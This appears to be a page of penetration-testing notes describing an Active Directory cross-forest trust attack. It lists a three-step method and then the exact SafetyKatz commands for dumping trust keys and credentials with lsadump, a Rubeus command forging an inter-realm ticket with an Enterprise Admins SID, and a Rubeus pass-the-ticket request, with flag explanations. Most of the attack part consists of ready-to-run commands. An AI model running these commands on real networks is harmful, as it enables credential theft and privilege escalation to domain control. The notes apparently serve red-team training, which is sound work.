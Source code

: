# Methodology
>1. Dump the trust key of the child domain.
>2. Forge an inter-forest ticket.
>3. Inject the ticket.

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Get the trust key:**
```cmd
SafetyKatz.exe '"lsadump::trust /patch"'
SafetyKatz.exe '"lsadump::dcsync /user:contoso\techcorp$"'
SafetyKatz.exe '"lsadump::lsa /patch"'
```

## Rubeus
**Forge a interrealm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/TECHCORP.LOCAL /rc4:a6215eeb238da9262d014a529fe03adb /sids:S-1-5-21-2781415573-3701854478-2406986946-519 /nowrap
```

where:
- `silver` - Creates a forged Silver Ticket (TGS) for service authentication.  
- `/user` - Specifies the username to impersonate (e.g., `Administrator`).  
- `/ldap` - Targets the LDAP service on Domain Controllers.  
- `/service` - Specifies the service principal name (format: `krbtgt/DOMAIN.LOCAL`).
- `/rc4` - Provides the NTLM hash of the KRBTGT account for ticket signing . 
- `/sids` - Adds Enterprise Admins SIDs to the ticket (e.g., Enterprise Admins `S-1-5-21-...-519`) .

**Request a TGS:**
```cmd
Rubeus.exe asktgs /service:CIFS/techcorpdc.TECHCORP.LOCAL /dc:techcorp-dc.TECHCORP.LOCAL /ptt /ticket:
```

>**ℹ️ Info:**
> Different SPN and what they're used for:
>- CIFS for directory browsing, copying files.
>- HTTP for WinRS.
>- HOST and CIFS for psexec.
>- HOST and RPCSS for WMI.
>- HOST and HTTP for PowerShell Remoting/WINRM.
>- LDAP for dcsync